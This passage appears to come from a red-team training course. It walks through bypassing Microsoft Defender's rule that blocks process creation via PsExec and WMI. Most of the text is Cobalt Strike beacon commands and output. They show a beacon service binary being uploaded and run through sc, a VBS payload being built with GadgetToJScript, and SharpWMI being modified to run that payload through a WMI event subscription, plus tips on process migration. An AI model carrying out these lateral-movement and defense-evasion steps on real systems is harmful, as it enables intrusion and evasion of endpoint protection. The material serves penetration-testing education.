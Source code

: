 _"This rule blocks processes created through PsExec and WMI from running."_

PsExec from the Sysinternals Suite and WMI Process Call Create are two popular methods for lateral movement (PsExec also a useful way to get SYSTEM access from a local admin).  `RTO2\cbridges` is a local admin on WKSTN-2, so from WKSTN-1 we can try and execute commands remotely to demonstrate the restrictions.

  

## PsExec

Attempting to execute a binary via PsExec on the remote target fails.

```
C:\Users\cbridges>C:\Sysinternals\PsExec64.exe \\wkstn-2 cmd.exe

PsExec v2.32 - Execute processes remotely
Copyright (C) 2001-2021 Mark Russinovich
Sysinternals - www.sysinternals.com

PsExec could not start cmd.exe on wkstn-2:
The system cannot find the file specified.
```

  

On WKSTN-2, the following alert is raised:

  

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/asr/psexec-blocked.png)

  

It appears this rule is specific to the Sysinternals PsExec implementation - it does not prevent you from creating and starting arbitrary services, which makes this trivial to bypass.  Simply drop your own service binary to disk and create a service to run it.

```
beacon> cd \\wkstn-2\admin$
beacon> upload /root/beacon-svc.exe
beacon> run sc \\wkstn-2 create RandoService binPath= C:\Windows\beacon-svc.exe

[SC] CreateService SUCCESS

beacon> run sc \\wkstn-2 start RandoService

SERVICE_NAME: RandoService 
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 2056
        FLAGS              : 

beacon> link wkstn-2
[+] established link to child beacon: 10.10.120.75

beacon> rm beacon-svc.exe
beacon> run sc \\wkstn-2 delete RandoService

[SC] DeleteService SUCCESS
```

This also means the automated jump command works.

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/asr/jump-psexec64.png)


## WMI

As with PsExec, attempting to execute a binary via `wmic /node` or Cobalt Strike's `remote-exec wmi` command is blocked.

```
beacon> run wmic /node:"wkstn-2" process call create "C:\Windows\System32\win32calc.exe"

Executing (Win32_Process)->Create()

Method execution successful.

Out Parameters:
instance of __PARAMETERS
{
	ReturnValue = 2;
};
```
  

The rule effectively prevents WmiPrvSE.exe from spawning children.

  

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/asr/wmiprvse-blocked.png)

  

The way to get around this one is to use VBScript payloads via an event subscription.

This requires a number of steps:

-   Generate a payload
-   Connect to WMI
-   Create an event filter to trigger the execution (via a timer)
-   Create an [ActiveScriptEventConsumer](https://docs.microsoft.com/en-us/windows/win32/wmisdk/activescripteventconsumer), using the VBScript engine
-   Create a FilterToConsumerBinding to link the filter and consumer
-   Wait for execution
-   Delete all of the above

Luckily, [SharpWMI](https://github.com/GhostPack/SharpWMI) already has this capability built-in.  For the payload, we can use one of our C# process injection projects and GadgetToJScript with the **-w vbs** option to write this out to a .vbs file.

```powershell
C:\Tools\GadgetToJScript>GadgetToJScript\bin\Debug\GadgetToJScript.exe -a TestAssembly\bin\Debug\TestAssembly.dll -w vbs -o C:\Users\Administrator\Desktop\wmi -b
[+]: Generating the vbs payload
[+]: First stage gadget generation done.
[+]: Loading your .NET assembly:TestAssembly\bin\Debug\TestAssembly.dll
[+]: Second stage gadget generation done.
[*]: Payload generation completed, check: C:\Users\Administrator\Desktop\wmi.vbs
```

  

There are some gotcha's from here.  SharpWMI's `script=` parameter expects to read the VBS file off disk of the machine running Beacon (not from your host), or it takes the input as raw VBS.  The `scriptb64=` parameter takes the VBS as a single base64 encoded string, but the G2JS gadget is too large to fit on the CS command line.  A solution to this, though far from ideal, is to hardcode the gadget directly into the SharpWMI assembly.

At the top of **Program.cs** you will see several **private static string** fields.  Create a new called HardcodedGadget (or something similar) and copy/paste the G2JS VBS here.

```
private static string HardcodedGadget = @"<PUT YOUR VBS HERE>";
```

  

Within this file, there's also a method called **GetVBSPayload**, which returns a string.  It usually returns a VBS payload based on your script= or scriptb64= input.  But I'm going to force this method to always return the hardcoded gadget by doing something like this:

```
static string GetVBSPayload(Dictionary<string, string> arguments)
{
    return HardcodedGadget;
}
```

  

Then just re-compile the assembly and execute it.

```shell
beacon> execute-assembly /root/tools/SharpWMI2.exe action=executevbs computername=wkstn-2 script=blah

[*] Using direct script's parameter as VBScript payload.
[*] Script will trigger after 10 and we'll wait for 12 seconds.

[*] Creating Event Subscription Debug : wkstn-2 - with interval between events: 10 secs
[*] Setting 'Debug' event filter on wkstn-2
[*] Setting 'Debug' event consumer on wkstn-2 to kill script after 12 secs
[*] Binding 'Debug' event filter and consumer on wkstn-2

[*] Waiting 10 seconds for event to trigger on wkstn-2 ...

[*] Removing 'Timer' internal timer from wkstn-2
[*] Removing FilterToConsumerBinding from wkstn-2
[*] Removing 'Debug' event filter from wkstn-2
[*] Removing 'Debug' event consumer from wkstn-2
```

The VBS is executed by scrcons.exe (WMI Standard Event Consumer), so if your injector performs "self-injection" (e.g. `var target = Process.GetCurrentProcess();`), the Beacon will be running inside this process.


![](https://rto2-assets.s3.eu-west-2.amazonaws.com/asr/wmi-vbs-beacon.png)


>  scrcons.exe will exit shortly after execution, so you have to migrate out of this process ASAP (e.g. with inject, shinject, shspawn etc).

